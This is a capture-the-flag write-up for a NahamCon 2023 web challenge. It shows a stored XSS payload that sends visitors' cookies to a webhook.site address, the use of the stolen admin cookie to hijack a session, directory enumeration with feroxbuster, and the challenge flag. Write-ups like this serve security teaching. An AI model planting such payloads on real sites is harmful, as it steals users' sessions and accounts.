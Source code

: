 >Author: @congon4tor#2334  
>
>If you love Star Wars as much as I do you need to check out this blog!
---------------------
Firstly comes logging in. After trying and failing a few easy guesses like admin:admin, I made my own account with username `asdf`. Upon entering we are led to a blog post:

![Pasted image 20230615231203.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615231203.png)

We see a comment section and not much else, so of course we have to check for XSS
```
<script>alert('XSS');</script>
```

![Pasted image 20230615231619.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615231619.png)

Our XSS was a hit, but also we can see notice that an admin should review our comment. This setup seems prime for a cookie hijack through XSS. I will use webhook.site to receive the cookie request.
```
<script>
document.write(``'<img src="https://webhook.site/538e246b-2888-428c-b201-75331cefc008?c='``+document.cookie+``'" />'``);
</script>
```

This XSS generates an image pointing to my webhook.site link, and adds the user's `document.cookie` to the end of the url. And so, when a victim views this page, the image will attempt to be loaded by visiting my webhook. The webhook will log the request information and with it, I will be able to see whatever cookies are associated with the victim's session.

![Pasted image 20230615230950.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615230950.png)
Indeed we see a cookie: `x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIvRmQ.20AcIM9F-Kg8q21j8Pc4mVl2aO0`

By substituting our X-wing cookie for this one, we become admin. Revisiting the page, nothing has changed. After a quick directory enumeration, we can find a new page by visiting `/admin`. This is pretty guessable, although I do concede to running `feroxbuster` to point it out to me:
```bash
feroxbuster -u http://challenge.nahamcon.com:30413/
<...SNIP...>
02      GET        4l       28w      303c http://challenge.nahamcon.com:30413/admin
<...SNIP...>
```

When visiting /admin while having the token, we can find the flag.

![Pasted image 20230615230911.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615230911.png)

`flag{a538c88890d45a382e44dfd00296a99b}`
